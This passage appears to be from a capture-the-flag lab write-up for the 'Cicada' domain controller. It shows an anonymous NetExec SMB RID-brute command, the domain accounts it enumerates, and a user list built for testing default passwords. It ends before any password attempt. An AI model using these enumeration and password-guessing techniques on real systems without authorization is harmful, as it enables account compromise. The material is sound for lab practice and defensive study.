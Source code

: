 <figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

#### Using the default PW

* how to use it?
* lets dig the users in SMB and test if they didnt change default PW

```bash
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute

...

SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

* lets make a list of users....

```bash
$cat users

john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
Dev Support
emily.oscars
```

